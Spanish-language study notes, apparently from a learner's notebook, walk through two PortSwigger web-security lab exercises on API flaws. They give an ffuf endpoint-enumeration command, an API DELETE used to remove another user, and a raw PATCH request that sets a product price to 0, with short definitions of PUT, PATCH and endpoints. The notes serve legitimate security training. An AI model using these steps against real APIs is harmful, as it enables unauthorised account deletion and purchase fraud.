 ### Lab: Exploiting an API endpoint using documentation

Laboratorio básico sobre seguridad en las api. El primer paso para verificar la seguridad de una api es hacer una enumeración/reconocimiento de sus componentes visibles públicamente (endpoints). Para ello he utilizado fuzz (la página me recomendaba usar el crawler de burpsuite) con el diccionario de api-endpoints de seclists.

```bash
ffuf -s -u https://0ac100b103ffa1758028fdfb00640026.web-security-academy.net/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt

api/user/me
api/user/current
openapi.json
```

-> **openapi.json** (documentación de la api en json)
En esta documentación he encontrado el parámetro **DELETE**, el cual sirve para el propósito del enunciado, eliminar el usuario carlos.

```json
"delete": {
	"parameters": [
		{
			"name": "user.username",
			"in": "path",
			"required": true,
			"schema": {
				"type": "string"
			}
		}
	],
```

Por último he editado la petición para que en vez de recoger la información de wiener (mi usuario) haga un DELETE al usuario carlos.
### Teoría
*Conceptos nuevos*

**Diferencia entre put y patch**
> PUT se usa para actualizar un recurso completo, mientras que PATCH se usa para actualizar solo partes de un recurso.

**Endpoint**
> Un endpoint es una URL específica de un servidor que se utiliza para interactuar con una aplicación o servicio web. En el contexto de las API (Interfaz de Programación de Aplicaciones), un endpoint es un punto de acceso que permite realizar operaciones sobre recursos. Cada endpoint está asociado con un método HTTP (como GET, POST, PUT, DELETE) y define qué acción se realizará en un recurso específico cuando se accede a esa URL.


### Lab: Finding and exploiting an unused API endpoint

Este laboratorio consistía en actualizar el precio de un determinado producto a 0 para poder comprarlo gratis. 

Para hacerlo tenía que acceder a la página dónde se compra y añadirlo en el carrito (escaneando con burpsuit) encontrando que el precio se obtenía de la api mediante get, luego de probar en el repeater diferentes parámetros he tenido que cambiar get por patch 
y especificar que el content-type de la petición a json y enviarle el objeto json con el nuevo precio de 0 (todo esto se tiene que hacer loggeado o te dará permissions error)
```http
patch /api/products/1/price HTTP/2
Host: 0ad3001c0315a1c181e62f7800930091.web-security-academy.net
Cookie: session=FEYFky9GJFDWjfQzq2KIYvtlzGIHw7jJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad3001c0315a1c181e62f7800930091.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Length: 13
Content-Type: application/json

{"price":0}
```

![[Pasted image 20240509202242.png]]

